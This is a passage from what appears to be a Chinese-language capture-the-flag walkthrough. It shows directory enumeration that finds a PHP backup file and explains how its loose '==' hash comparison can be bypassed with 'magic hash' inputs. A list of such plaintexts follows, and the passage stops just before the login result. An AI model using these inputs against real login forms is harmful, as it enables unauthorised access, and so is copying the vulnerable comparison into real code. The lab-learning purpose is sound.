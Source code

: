 ```bash
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/check.bak            (Status: 200) [Size: 273]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

### 弱比较绕过

```bash
┌──(kali㉿kali)-[~/temp/Hash]
└─$ curl -s http://$IP/check.bak                                                                                                                 
<?php
// Login part.
$pass = $_POST['password'];
//marco please dont use md5, is not secure.
//$passwordhashed = hash('md5', $pass);
$passwordhashed = hash('sha256',$pass);
if ($passwordhashed == '0e0001337') {
//Your code here
}
else{
//Another code here
}
//To finish
?>
```

是若比较，可以尝试前面加`0e`进行绕过，具体可以看一下这个库 https://github.com/spaze/hashes/tree/master 找到符合条件的：

```bash
34250003024812:0e46289032038065916139621039085883773413820991920706299695051332
TyNOQHUS:0e66298694359207596086558843543959518835691168370379069085300385
CGq'v]`1:0e24075800390395003020016330244669256332225005475416462877606139
\}Fr@!-a:0e72388986848908063143227157175161069826054332235509517153370253
|+ydg uahashcat:0e47232208479423947711758529407170319802038822455916807443812134
8W-vW:5ghashcat:0e99625202804787226908207582077273485674961623832383874594371630 (note: the plaintext has a colon in the middle)
mz586Ostt0:0e68778243444544519255778909858576221322537110103676691840647395
Sol7trnk00:0e57289584033733351592613162328254589214408593566331187698889096
NzQEVVCN10:0e92299296652799688472441889499080435414654298793501210067779366
Z664cnsb60:0e51257675595021973950657753067030245565435125968551772003589958
jF7qQUmx70:0e04396813052343573929892122002074460952498169617805703816566529
0e9682187459792981:0e84837923611824342735254600415455016861658967528729588256413411
0e9377421626279222:0e48575090397052833642912654053751294419348146401806328515618635
```

随便搞一个得到：
